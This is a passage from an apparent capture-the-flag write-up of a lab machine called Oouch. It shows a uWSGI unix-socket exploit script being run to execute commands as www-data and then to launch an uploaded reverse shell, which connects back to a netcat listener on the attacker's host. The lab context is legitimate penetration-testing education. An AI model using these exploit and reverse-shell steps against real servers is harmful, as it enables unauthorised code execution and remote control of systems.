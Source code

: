 I opened a Python shell and played with it, and found that without importing `bytes`, it’s already there:

```

qtc@aeb4525789d8:~$ python
Python 3.7.6 (default, Feb  2 2020, 09:11:24) 
[GCC 8.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> h = 'abcd'
>>> bytes.fromhex(h)
b'\xab\xcd'

```

So I edited the code to remove that import line, and re-uploaded it. Now it works (proof of concept, output `id` to a file in `/tmp`):

```

qtc@aeb4525789d8:~$ python /dev/shm/.d.py -u /tmp/uwsgi.socket -c 'id > /tmp/d' -m unix
[*]Sending payload.

qtc@aeb4525789d8:~$ cat /tmp/d 
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

#### Shell

Instead of `id`, I’ll run the reverse shell I uploaded:

```

qtc@aeb4525789d8:~$ python /dev/shm/.d.py -m unix -u /tmp/uwsgi.socket -c 'python /dev/shm/.rev.py'
[*]Sending payload.

```

Immediately I get a shell:

```

root@kali# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.177] 56614
bash: /root/.bashrc: Permission denied
www-data@aeb4525789d8:/code$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

## Shell as root on oouch

### Enumeration
